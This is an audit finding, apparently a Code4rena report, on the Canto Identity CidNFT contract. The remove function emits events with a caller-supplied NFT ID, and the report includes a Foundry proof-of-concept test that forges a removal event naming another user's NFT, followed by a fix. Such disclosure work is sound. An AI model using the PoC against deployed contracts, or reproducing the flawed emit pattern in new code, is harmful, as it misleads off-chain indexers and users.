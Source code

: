 # Attacker can forge remove data event with arbitrary Subprotocol NFT ID

The `remove` function present in the `CidNFT` contract can be used to dissociate a subprotocol NFT from a CID. This function takes a `_nftIDToRemove` parameter that is useful for the case of `AssociationType.ACTIVE` in order to look for the position in the underlying array that needs to be deleted. However, this parameter is wrongly used in the other two association type cases to emit events, and allows a bad actor to emit arbitrary data.

https://github.com/code-423n4/2023-01-canto-identity/blob/main/src/CidNFT.sol#L257-L272

```solidity
if (_type == AssociationType.ORDERED) {
    // We do not have to check if ordered is supported by the subprotocol. If not, the value will not be unset (which is checked below)
    uint256 currNFTID = cidData[_cidNFTID][_subprotocolName].ordered[_key];
    if (currNFTID == 0)
        // This check is technically not necessary (because the NFT transfer would fail), but we include it to have more meaningful errors
        revert OrderedValueNotSet(_cidNFTID, _subprotocolName, _key);
    delete cidData[_cidNFTID][_subprotocolName].ordered[_key];
    nftToRemove.safeTransferFrom(address(this), msg.sender, currNFTID);
    emit OrderedDataRemoved(_cidNFTID, _subprotocolName, _key, _nftIDToRemove);
} else if (_type == AssociationType.PRIMARY) {
    uint256 currNFTID = cidData[_cidNFTID][_subprotocolName].primary;
    if (currNFTID == 0) revert PrimaryValueNotSet(_cidNFTID, _subprotocolName);
    delete cidData[_cidNFTID][_subprotocolName].primary;
    nftToRemove.safeTransferFrom(address(this), msg.sender, currNFTID);
    emit PrimaryDataRemoved(_cidNFTID, _subprotocolName, _nftIDToRemove);
} else if (_type == AssociationType.ACTIVE) {
```

In both `AssociationType.ORDERED` and `AssociationType.PRIMARY` cases, the code will remove the current associated subprotocol NFT ID (`currNFTID`) but will emit the event using the `_nftIDToRemove` parameters, which is user controlled.

## Impact

This can be used by an attacker to forge the remove event data and set an arbitrary subprotocol NFT ID when emitting the log. This may eventually lead to other consequences as this event is likely used by off-chain indexers.

## PoC

In the following, an attacker uses Alice's subprotocol NFT ID to call the `remove` function. The `PrimaryDataRemoved` event will be emitted using her subprotocol id.

```solidity
contract Note is ERC20 {
    constructor() ERC20("Note", "NOTE", 18) {}

    function mint(address account, uint256 amount) external {
        _mint(account, amount);
    }
}

contract AuditTest is DSTest {
    Vm internal immutable vm = Vm(HEVM_ADDRESS);

    string internal constant BASE_URI = "tbd://base_uri/";

    address feeWallet;
    address alice;
    address bob;
    address attacker;

    Note note;
    SubprotocolRegistry subprotocolRegistry;
    CidNFT cidNFT;
    SubprotocolNFT sub1;
    SubprotocolNFT sub2;
    AddressRegistry addressRegistry;

    event PrimaryDataRemoved(uint256 indexed cidNFTID, string indexed subprotocolName, uint256 subprotocolNFTID);
    
    function test_CidNFT_ForgeRemoveEvent() public {
        note.mint(alice, 100 * (10**18));

        // Setup
        vm.startPrank(alice);

        // Alice registers subprotocol
        note.approve(address(subprotocolRegistry), type(uint256).max);
        subprotocolRegistry.register(
            true,
            true,
            true,
            address(sub1),
            "sub1",
            0
        );

        // Mints CidNFT
        cidNFT.mint(new bytes[](0));
        uint256 cidNFTID = 1;
        assertEq(cidNFT.ownerOf(cidNFTID), alice);

        // Alice mints subprotocol NFT and adds it to the CidNFT
        uint256 aliceSubprotocolNFTID = 7;
        sub1.mint(alice, aliceSubprotocolNFTID);

        sub1.approve(address(cidNFT), aliceSubprotocolNFTID);
        cidNFT.add(
            cidNFTID,
            "sub1",
            0,
            aliceSubprotocolNFTID,
            CidNFT.AssociationType.PRIMARY
        );

        vm.stopPrank();

        // Attack
        vm.startPrank(attacker);

        // Attacker mints his own CidNFT
        cidNFT.mint(new bytes[](0));
        uint256 attackerCidNFTID = 2;
        assertEq(cidNFT.ownerOf(attackerCidNFTID), attacker);

        // Attacker mints his subprotocol NFT
        uint256 attackerSubprotocolNFTID = 11;
        sub1.mint(attacker, attackerSubprotocolNFTID);

        // Adds it to his CID
        sub1.approve(address(cidNFT), attackerSubprotocolNFTID);
        cidNFT.add(
            attackerCidNFTID,
            "sub1",
            0,
            attackerSubprotocolNFTID,
            CidNFT.AssociationType.PRIMARY
        );

        // Now the attacker removes the NFT but using Alice's token id. The event will be emitted using Alice's subprotocol NFT.
        vm.expectEmit(true, true, true, true);
        emit PrimaryDataRemoved(attackerCidNFTID, "sub1", aliceSubprotocolNFTID);
        cidNFT.remove(attackerCidNFTID, "sub1", 0, aliceSubprotocolNFTID, CidNFT.AssociationType.PRIMARY);

        vm.stopPrank();
    }
}
```

## Recommendation

In the cases of `AssociationType.PRIMARY` and `AssociationType.ORDERED`, the `remove` function should emit the corresponding event using the actual stored subprotocol NFT ID (`currNFTID`) instead of the `_nftIDToRemove` passed as an argument.

```solidity
function remove(
    uint256 _cidNFTID,
    string calldata _subprotocolName,
    uint256 _key,
    uint256 _nftIDToRemove,
    AssociationType _type
) public {
    SubprotocolRegistry.SubprotocolData memory subprotocolData = subprotocolRegistry.getSubprotocol(
        _subprotocolName
    );
    address subprotocolOwner = subprotocolData.owner;
    if (subprotocolOwner == address(0)) revert SubprotocolDoesNotExist(_subprotocolName);
    address cidNFTOwner = ownerOf[_cidNFTID];
    if (
        cidNFTOwner != msg.sender &&
        getApproved[_cidNFTID] != msg.sender &&
        !isApprovedForAll[cidNFTOwner][msg.sender]
    ) revert NotAuthorizedForCIDNFT(msg.sender, _cidNFTID, cidNFTOwner);

    ERC721 nftToRemove = ERC721(subprotocolData.nftAddress);
    if (_type == AssociationType.ORDERED) {
        // We do not have to check if ordered is supported by the subprotocol. If not, the value will not be unset (which is checked below)
        uint256 currNFTID = cidData[_cidNFTID][_subprotocolName].ordered[_key];
        if (currNFTID == 0)
            // This check is technically not necessary (because the NFT transfer would fail), but we include it to have more meaningful errors
            revert OrderedValueNotSet(_cidNFTID, _subprotocolName, _key);
        delete cidData[_cidNFTID][_subprotocolName].ordered[_key];
        nftToRemove.safeTransferFrom(address(this), msg.sender, currNFTID);
        emit OrderedDataRemoved(_cidNFTID, _subprotocolName, _key, currNFTID);
    } else if (_type == AssociationType.PRIMARY) {
        uint256 currNFTID = cidData[_cidNFTID][_subprotocolName].primary;
        if (currNFTID == 0) revert PrimaryValueNotSet(_cidNFTID, _subprotocolName);
        delete cidData[_cidNFTID][_subprotocolName].primary;
        nftToRemove.safeTransferFrom(address(this), msg.sender, currNFTID);
        emit PrimaryDataRemoved(_cidNFTID, _subprotocolName, currNFTID);
    } else if (_type == AssociationType.ACTIVE) {
        IndexedArray storage activeData = cidData[_cidNFTID][_subprotocolName].active;
        uint256 arrayPosition = activeData.positions[_nftIDToRemove]; // Index + 1, 0 if non-existant
        if (arrayPosition == 0) revert ActiveArrayDoesNotContainID(_cidNFTID, _subprotocolName, _nftIDToRemove);
        uint256 arrayLength = activeData.values.length;
        // Swap only necessary if not already the last element
        if (arrayPosition != arrayLength) {
            uint256 befSwapLastNFTID = activeData.values[arrayLength - 1];
            activeData.values[arrayPosition - 1] = befSwapLastNFTID;
            activeData.positions[befSwapLastNFTID] = arrayPosition;
        }
        activeData.values.pop();
        activeData.positions[_nftIDToRemove] = 0;
        nftToRemove.safeTransferFrom(address(this), msg.sender, _nftIDToRemove);
        emit ActiveDataRemoved(_cidNFTID, _subprotocolName, _nftIDToRemove);
    }
}
```
